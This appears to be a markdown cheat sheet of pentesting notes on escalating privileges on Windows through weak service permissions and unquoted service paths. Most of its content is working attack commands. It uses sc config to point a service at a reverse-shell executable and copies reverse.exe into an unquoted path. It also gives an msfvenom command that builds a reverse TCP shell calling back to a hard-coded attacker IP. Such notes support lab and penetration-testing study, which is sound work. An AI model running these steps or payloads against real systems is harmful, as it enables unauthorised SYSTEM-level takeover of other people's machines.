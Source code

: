 **Service Commands**
```
sc.exe qc <name>                                 Query the configuration of a service
sc.exe query <name>                              Query the current status of a service
sc.exe config <name> <option>= <value>           Modify a configuration option of a service
net start/stop <name>                            Start/Stop a service
```

**Insecure Service Permissions**
1. Use AccessChk to check the "user" account's permissions on the "daclsvc" service:
   - `C:\PrivEsc\accesschk.exe /accepteula -uwcqv <user> <service>`
2. If `SERVICE_CHANGE_CONFIG` is present, it's possible to change the service configuration
3. Query the service. If it runs with `SYSTEM` privileges, it's possible a privilege escalation
   - `sc qc <service>`
   - Example: `SERVICE_START_NAME: LocalSystem`
4. Modify the service config and set the `BINARY_PATH_NAME` (binpath) to the reverse shell executable
   - `sc config <service> binpath= "\"C:\PrivEsc\reverse.exe\""`
5. Set a listener and start the service `net start <service>`

**Unquoted Service Path**

- `wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`
  - note: if in "PathName" you don't see quotation, there might be a Priv Esc
    1. Check which user is running it: `sc qc SERVICE_NAME`
    2. check it with a command similar to the following to see if you have write priv: `powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`
- If you have found an Unquoted Service Path:
  - `Get-Acl -Path "C:\Program Files (x86)\service" | Format-List`
    - see if you have write privileges (with `icacls`)
  - `"service" | Get-ServiceACL | select -ExpandProperty Access`
    - see if you can stop and start (restart) the service
  - `msfvenom -p windows/shell_reverse_tcp LHOST=10.18.110.121 LPORT=445 -f exe -o shell.exe`
  - copy the `shell.exe`, then:
    1. `sc start "service"`
    2. `Stop-Service -name "service"`
    3. `Start-Service -name "service"`

Another way
1. Check: ["Microsoft Windows Unquoted Service Path Vulnerability"](https://www.tenable.com/sc-report-templates/microsoft-windows-unquoted-service-path-vulnerability)
2. Query a service. If it runs with `SYSTEM` privileges (check `SERVICE_START_NAME`) and the `BINARY_PATH_NAME` value is unquoted and contains spaces, it's possible a privilege escalation
   - `sc qc <service>`
   - Example: `BINARY_PATH_NAME: C:\Program Files\Unquoted Path Service\Common Results\unquotedpathservice.exe`
   - You can also use the Powershell command `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
3. Use AccessChk to check write permissions in this directory `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
   - You can review the permissions with `icacls "C:\"` and `icacls "C:\Program Files\Enterprise Apps"`
   - Check if you can run and stop the service with `Start-Service GammaService` and `Stop-Service`
4. Copy the reverse shell `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
5. Start a listener on the attacker machine and run the service
